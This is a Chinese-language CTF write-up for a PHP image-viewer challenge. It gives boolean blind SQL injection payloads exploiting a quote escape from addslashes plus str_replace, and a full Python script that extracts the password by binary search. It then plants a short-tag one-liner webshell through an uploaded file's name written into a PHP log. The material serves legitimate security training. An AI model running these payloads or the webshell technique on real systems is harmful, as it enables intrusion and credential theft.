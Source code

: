 # 知识点：

# 1. .bak源码泄露

# 2. 布尔盲注

# 3. 文件上传

# 4. 利用文件名记录到日志文件，使日志文件变成shell文件

## 5. php开启short_open_tag=on，时，可以使用<? ?>代替<?php ?>



# 1.扫描文件后台，发现robots.txt文件

robots.txt文件提示：*.php.bak



# 2.得到image.php文内容

```javascript
<﻿?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```



# 3.可以尝试注入，但是过滤了单引号

此时可以利用该addslashes和str_replace来造成单引号逃逸

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/AF8C31D40CD94A91B999871BDCC367ADclipboard.png)

单id=\\0，时，经过addslashes时被转义成了\\0

然后再经过str_replace的替换，替换了\0只剩下\，\到达id时将单引号转义，从而造成单引号逃逸。



此时sql语句为：

```javascript
select * from admin1 where id='\' or username='or 1=1;#'
```



但是没有回显，推测需要盲注



# 4. 尝试时间盲注没有反应，可能存在过滤。后面发现是布尔盲注

```javascript
?id=\\0&path=or+id=if(ascii(substr((select+username+from+users),1,1))
>1,1,0)%23 
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/3B503A2B57BF4106A80E02281F1F2F80clipboard.png)



```javascript
?id=\\0&path=or+id=if(ascii(substr((select+username+from+users),1,1))
>150,1,0)%23 
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/2CBAE5F31D6E4825B9A5AF99206631E9clipboard.png)

当查询结果为真时返回第一张图片，当为假时返回为空



# 5.构造exp

```javascript
import requests
import time
name=''
for j in range(1,21):
    # 可回显字符
    l = 32
    h = 127
    # 二分查找发，当l和h相等时，查找到中间，表示查找完，退出
    while abs(l-h)>1:
        i=int((l+h)/2)
        url="http://5b29503f-6ad9-44ab-8b01-5e72b51fe433.node3.buuoj.cn/image.php?id=\\0'&path= or ascii(substr((select password from users),"+str(j)+",1))>"+str(i)+"%23"
        r = requests.get(url)
        # 每次发包间隔0.005秒
        time.sleep(0.005)
        print(url)
        if r.status_code=='429':
            print('to fast')
        # 查找返回值为空，l=(l+h)/2,表示需要查找的值大于i，下次需要从i以上查找
        if not 'Content-Length' in r.headers:
            l = i
        else:
        #不为空 h=(l+h)/2，表示需要查找的值小于i，下次需要从i以下查找
            h = i
    name += chr(h)
print(name)
```



得到密码为：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/41DFE639F488482EADF7AF893DA984B6clipboard.png)



# 6. 用户名为admin，登陆发现存在文件上传界面

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/11A20B3DA7AF473187C28B7D8FE92CB0clipboard.png)



上传文件之后，会给出日志文件的路径

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/DB22273929AF4A188DDEA8749DF3A8EDclipboard.png)

且日志文件为php文件，会限制上传文件的文件名。



# 7.可以尝试将文件名写为一句话马，构造shell

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/CAD240578BAE4786A9641BFF151FAB05clipboard.png)

发现会检测上传的文件的文件名，不能含有php



# 8.在一些特殊情况下<? ?>短标签也是可以执行的

当：short_open_tag=on时



去了php发现上传成功。去到日志php文件时，发现没有显示文件名，说明刚上传的文件名当作了php文件执行



# 9.蚁剑链接，根目录发现flag

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/00349B8FEA6449B4852C90764B6D321Dclipboard.png)











